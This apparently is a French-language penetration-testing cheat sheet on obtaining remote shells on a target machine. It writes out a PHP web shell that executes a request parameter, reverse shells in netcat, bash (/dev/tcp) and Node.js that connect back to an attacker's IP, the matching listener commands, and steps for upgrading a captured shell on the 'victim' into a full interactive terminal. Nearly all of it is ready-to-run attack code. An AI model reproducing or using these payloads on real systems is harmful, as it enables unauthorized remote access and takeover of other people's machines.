# Get Shell

## PHP

That will execute the cmd you pass as a parameter in the request \(get or post\) :

```php
<?php
system($_REQUEST['cmd']);
?>
```

## Netcat

```bash
# on target
nc -e /bin/sh <host> <port>

# on attacker
nc -lvp <port>
```

## Bash

```bash
# on target
bash -i >& /dev/tcp/<ip>/<port> 0>&1
# des fois il faut l'entourer ainsi
bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'

# on attacker
nc -lvp <port>
```

* `/dev/tcp` est fournit directement par bash et n'existe que pour les redirections
* `-i` permet de créer un shell interactif
* `>&` Redirige STDOUT et STDERR du shell vers la connection
* `0>&1` Redirige STDIN \(de la co\) vers STDOUT \(de la co je pense\)
* `bash -c` permet de s'assurer que c'est bash et non un autre shell de la machine qui executera la commande, c'est nécessaire car /dev/tcp n'est fournit que par lui

## Node

On target :

```javascript
(function(){
    var cp = require("child_process");
    var sh = cp.spawn("/bin/sh", []);
    var net = require("net");
    var client = new net.Socket();
    client.connect(my_port, "my_ip", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js app from crashing
})();
```

On attacker : `nc -lvp port`

## Metasploit

* Un shell donné par metasploit ne sera pas forcément persistant, aka tu peux utiliser que des 1 liner parce que l'état n'est pas conservé \(genre un cd te déplacera pas\)

## Upgrade your shell

* Les shells qu'on récupère ainsi sont rarement pratique, ils réagissent mal au tab, n'ont pas d'auto-completion, se ferme avec CTRL-C, etc.
* Pour récupérer un vrai shell suivre ces étapes : 
  * Sur la victime, spawn un shell via python \(tester avec python3 si le 2 n'est pas dispo\)`python -c 'import pty; pty.spawn("/bin/bash")'`
  * Sur l'attaquant, check notre type de terminal `echo $TERM`
  * Sur la victime, export ces 2 var : `export TERM=...` & `export SHELL=/bin/bash`
  * Ctrl-z sur la victime
  * Ca nous remets sur l'attaquant, check les diffs du terminal avec `stty size`
  * Lancer \(toujours sur l'attaquant\) `stty raw -echo;fg`
  * Taper `reset`
  * Taper `stty rows ... columns ...`


